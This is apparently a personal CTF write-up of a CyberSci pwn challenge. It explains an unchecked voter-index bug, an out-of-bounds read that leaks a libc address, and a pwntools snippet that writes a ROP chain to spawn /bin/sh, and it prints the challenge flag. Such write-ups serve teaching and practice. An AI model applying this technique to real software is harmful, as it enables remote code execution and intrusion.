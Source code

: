 # Registration Oriented Programming
## Challenge by Jason

> To register for the upcoming election, please connect to registration:
> `nc <HOST> <PORT>` 

_Disclaimer: I did not solve this challenge during CyberSci Regionals._

```
Archive:  registration.zip
  Length      Date    Time    Name
---------  ---------- -----   ----
      237  2024-11-15 22:09   Dockerfile
       39  2024-11-15 22:09   challenge.sh
    16376  2024-11-15 22:09   registration
      221  2024-11-15 22:09   xinetd.conf
---------                     -------

[*] '/home/user/files/registration'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

The meat of the challenge occurs within the `main()` loop:

```c
undefined8 main(void)

{
  int d_menu_selection;
  long in_FS_OFFSET;
  int d_voter_index;
  uint d_iter;
  char ps_voter_list [136];
  long canary;
  
  canary = *(long *)(in_FS_OFFSET + 0x28);
  setvbuf(stdin,(char *)0x0,2,0);
  setvbuf(stdout,(char *)0x0,2,0);
  setvbuf(stderr,(char *)0x0,2,0);
  d_voter_index = -1;
  do {
    while( true ) {
      menu();
      d_menu_selection = get_int();
      if (d_menu_selection == 3) {
                    /* exit */
        if (canary == *(long *)(in_FS_OFFSET + 0x28)) {
          return 0;
        }
                    /* WARNING: Subroutine does not return */
        __stack_chk_fail();
      }
      if (d_menu_selection < 4) break;
LAB_00101497:
      puts("Unknown option.");
    }
    if (d_menu_selection == 1) {
                    /* register voter */
      printf("Index: ");
      d_voter_index = get_int();
      printf("Name: ");
      fgets(ps_voter_list + (long)d_voter_index * 8,8,stdin);
      puts("Registration successful!");
    }
    else {
      if (d_menu_selection != 2) goto LAB_00101497;
                    /* view list of register voters */
      puts("\n=== Registration List ===");
      for (d_iter = 0; (int)d_iter <= d_voter_index; d_iter = d_iter + 1) {
        printf("%d: ",(ulong)d_iter);
        puts(ps_voter_list + (long)(int)d_iter * 8);
      }
      puts("");
    }
  } while( true );
}
```

Typical use of this function of this program appears to enable voters to be
registered into the system, namely by writing thier name into the buffer
`ps_voter_list`. For one reason or another, the program prompts a user to enter
in their details at any index of the buffer, where no bounding checks are
performed. Therefore, it is possible to start writing data at any point in
memory

```c
    // ...
                    /* register voter */
      printf("Index: ");
      d_voter_index = get_int();
      printf("Name: ");
      fgets(ps_voter_list + (long)d_voter_index * 8,8,stdin);
      puts("Registration successful!");
    // ...
```

Along with this, the kind developers of this application also allows users to
view all registered voters, up to the latest one added to the array. However,
their implmentation simply prints the memory from the start of the array, to
where the index is last placed.

```c
    // ...
      if (d_menu_selection != 2) goto LAB_00101497;
                    /* view list of register voters */
      puts("\n=== Registration List ===");
      for (d_iter = 0; (int)d_iter <= d_voter_index; d_iter = d_iter + 1) {
        printf("%d: ",(ulong)d_iter);
        puts(ps_voter_list + (long)(int)d_iter * 8);
      }
      puts("");
    // ...
```

This chunk of code does not perform any boundary checks either. Since the buffer
is of size 136, the theoretical maximum index would be 17. As such, it is
possible to achieve an address leak with a large-enough index, which just
happened to be 19.

```
=== Registration List ===
0:
1:
2:
3:
4:
5: \x18\xa6F\x11\xfd
6: \x06
7:
8:
9:
10:
11:
12:
13:
14:
15: \xf0:V\x12\x7f
16: 0\xa7F\x11\xfd
17:
18: \xf0\xa6F\xfd
19: ʑ5\x1d\x12\x7f
20:
```

YIPPEE!!

This provides a return address to `__libc_start_call_main`

> Note: the `libc` and `ld` binary used here was extracted from the dockerfile,
> after building and running it. Then,
> [`pwninit`](https://github.com/io12/pwninit) is able to patch the binary to
> use the `libc.so.6` and `ld-linux-86-64.so.2` from the container.

As the return address points to `__libc_start_call_main`, then we already know
the address of where the `libc`.

> Note: we want to determine where `libc` is in memory for two reasons
>
> 1. Address Space Layout Randomization (ASLR) is enabled, indicated by the
>    binary being compiled as a Position Independent Executable (PIE). This
>    means that the library is placed anywhere (within a decently large region
>    of memory). This typically means that general return address overwrites
>    would be defeated, as the address used in a previous attack is very
>    unlikely to work in the next attack attempt. Leaking the address without
>    restarting the binary means we would know where to hit using some
>    arithmetic and address offsets.
> 2. We want to run code from `libc`, as it contains a lot more code that could
>    be abused, including `system`, and the string `/bin/sh` :>

Once we know where `libc` is located, it is possible to set a call to `system`
_using_ the string `/bin/sh` using [ROP](https://youtu.be/zaQVNM3or7k) (hence,
then name of the challenge).

The difficulty then namely lies in writing the addresses of the gadgets into the
stack for execution. Luckily, we now have a mechanism to write stuff onto the
stack, with no sanitation (using `fgets`)!! Thus, we can write the necessary
gadgets onto the address, starting at index 19 to overwrite the leaked
`__libc_start_call_main` address, and iterating from there. This replaces a
typical buffer overflow, which smashes the return address of the function,
implemented below.

```py
# write each address onto the stack, creating our rop chain
ropchain_list = [rop.chain()[i:i+8] for i in range(0, len(rop.chain()), 8)]
for i, addr in enumerate(ropchain_list):
    # return address is at index 19, start overwriting there
    r.sendlineafter(b"> ", bytes(f"1\n{i+19}\n", "latin-1")+addr)
```

Now, it is possible to cause the main function to return, which is just done by
selecting option 3.

Doing all this, this gives a shell and the flag can simply be `cat`-ed

This gives the following flag: `flag{rawr_d41d8cd98f00b204e9800998ecf8427e}`
